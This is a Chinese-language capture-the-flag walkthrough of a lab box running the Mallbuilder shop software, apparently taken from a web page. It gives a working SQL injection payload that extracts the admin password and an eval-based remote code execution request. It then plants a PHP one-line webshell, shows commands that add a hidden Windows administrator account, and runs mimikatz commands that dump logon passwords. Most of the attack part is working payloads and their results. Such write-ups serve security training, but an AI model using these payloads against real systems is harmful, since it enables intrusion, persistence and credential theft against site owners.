 ### 一、利用SQL注入漏洞获取管理员密码

1.进入网站首页，发现是Mallbuilder，该版本有注入漏洞，可以直接获取管理员密码

[http://192.168.20.178/mall/cate_show_ajax.php?oper=ajax&call=get_cate](http://192.168.201.169/mall/cate_show_ajax.php?oper=ajax&call=get_cate)

POST:

catid=12313213131313113) and EXP(~(SELECT*FROM(SElect user FROM mallbuilder_admin LIMIT 0,1)a))#

![img](http://192.168.33.1/uploads/20180330/permeate_13_html_616f21e1.png)

2.图片中浏览器使用的工具是hackbar 勾选Enable Post data 可以添加post数据

填写后点击右侧execute 即可发出包

![img](http://192.168.33.1/uploads/20180330/permeate_13_html_67e637c1.png)

根据经验可以判断出这是123456的MD5

![img](http://192.168.33.1/uploads/20180330/permeate_13_html_m18791195.png)

3.可以直接通过sql注入获取第一个flag：

![img](http://192.168.33.1/uploads/20180330/permeate_13_html_853a3d.png)

flag1{A274C90B84947AD7DA77D19C9159ECF8}

### 二．进入网站后台

根据上一步的注入结果，admin密码为123456,进后台

后台地址为http://192.168.20.178/mall/admin/

进入后台发现第二个flag：

![img](http://192.168.33.1/uploads/20180330/permeate_13_html_m7b7250c8.png)

flag2{5D18B19BD7C1AA3B369AC3E1EAF027DD}

### 三．源码审计

1.网上没有公开的后台getshell的漏洞，需要下载一份源码进行简单的审计

在admin\module_translations.php存在代码执行：

![img](http://192.168.33.1/uploads/20180330/permeate_13_html_6693def0.png)

2.mod参数被带入eval执行，但是中间经过了strtoupper函数，这个在后期写马的时候需要注意

![img](http://192.168.33.1/uploads/20180330/permeate_13_html_m14007c83.png)

[http://192.168.20.178/mall/admin/module_translations.php](http://192.168.20.178/mall/admin/module_translations.php?mod=;system('whoami')

[?mod=;system('whoami'](http://192.168.20.178/mall/admin/module_translations.php?mod=;system('whoami'))



![img](http://192.168.33.1/uploads/20180330/permeate_13_html_1e60ec1e.png)

http://192.168.20.178/mall/admin/module_translations.php?mod=;system('dir')

3.使用dir列出当前文件，发现flag.php 找到第三个flag

直接type读取

![img](http://192.168.33.1/uploads/20180330/permeate_13_html_m7d2065cb.png)

http://192.168.20.178/mall/admin/module_translations.php

?mod=;system('type flag.php')

flag3{26AB5763FA44994C71EEF6BB98A6956E}

### 四．利用命令执行漏洞

1．由于有cookie，不能直接用菜刀，所以用代码执行写一个马出来，需要注意strtoupper函数

[http://192.168.20.178/mall/admin/module_translations.php?mod=;file_put_contents(%271.php%27,%27%3C?php%20@eval($_POST[1\]);?%3E%27)](http://192.168.20.178/mall/admin/module_translations.php?mod=;file_put_contents('1.php',''))



![img](http://192.168.33.1/uploads/20180330/permeate_13_html_m1633689a.png)

2.通过菜刀链接

[http://192.168.20.178/mall/admin/1.PHP](http://192.168.201.169/mall/admin/1.PHP)

![img](http://192.168.33.1/uploads/20180330/permeate_13_html_m217b52d5.png)

3.选中webshell 右键点击虚拟终端如下图

![img](http://192.168.33.1/uploads/20180330/permeate_13_html_m4726ac71.png)

4.输入以下命令 添加用户

net user simple simple /add

net localgroup administrators simple /add

![img](http://192.168.33.1/uploads/20180330/permeate_13_html_m2b0afbbd.png)

5.远程连接3389 快捷键win+r 输入mstsc 远程连接目标主机

![img](http://192.168.33.1/uploads/20180330/permeate_13_html_m78f5b68f.png)

![img](http://192.168.33.1/uploads/20180330/permeate_13_html_41f269af.png)

flag4{971BADE4FB06D699FB15D5612F196400}

### 五．使用mimikatz获取管理员密码

1上传mimikatz等获取工具获取管理员密码 目标系统是32位选择对应架构的程序

将三个文件都放在一个文件夹中，进入命令行切换到对应目录

输入mimikatz.exe 运行工具

privilege::debug

sekurlsa::logonpasswords

结果如下图 可以看出管理员账户的密码是Simplexue123

![img](http://192.168.33.1/uploads/20180330/permeate_13_html_m4cbe1863.png)

2.重新进行远程登录，这次使用刚刚得到的系统管理员密码登录，在桌面发现第五个flag

![img](http://192.168.33.1/uploads/20180330/permeate_13_html_m767cef1b.png)

flag5{031340FE9D99C36EA459202B9A7F92DC}